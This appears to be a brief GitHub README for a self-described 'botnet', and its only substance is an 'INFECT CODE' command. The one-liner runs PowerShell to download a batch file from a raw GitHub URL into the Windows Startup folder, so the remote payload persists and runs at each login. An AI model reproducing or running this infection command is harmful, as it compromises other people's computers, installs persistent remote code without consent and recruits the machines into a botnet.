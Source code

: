 # bad botnet made by me
>OPEN SOURCE!!!

# INFECT CODE: (RUN ON CMD OR A BATCH FILE)
```
@echo off & powershell -Command "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat', 'C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RCEE.bat')"
```
